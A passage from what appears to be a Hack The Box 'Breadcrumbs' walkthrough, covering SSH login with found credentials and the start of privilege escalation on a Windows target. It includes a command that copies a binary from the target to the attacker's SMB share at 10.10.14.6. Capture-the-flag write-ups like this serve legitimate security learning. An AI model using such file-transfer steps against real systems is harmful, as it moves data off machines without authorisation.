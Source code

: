 Let's try to ssh with these creds

<img alt="test" src="/assets/img/htb-breadcrumbs/sshdev.png">


---

# Root User PrivESC 

---

Now we're logged in as development, we can check what's inside `C:\Development\`

<img alt="test" src="/assets/img/htb-breadcrumbs/ff.png">

Let's copy it to our machine

```
copy Krypter_Linux \\10.10.14.6\euch

```
<img alt="test" src="/assets/img/htb-breadcrumbs/kryp.png">

It's a Linux executable, before going deeper in the binary it's better to run strings or rabin2 -z to extract the printable strings in the binary!

<img alt="test" src="/assets/img/htb-breadcrumbs/rabin.png">
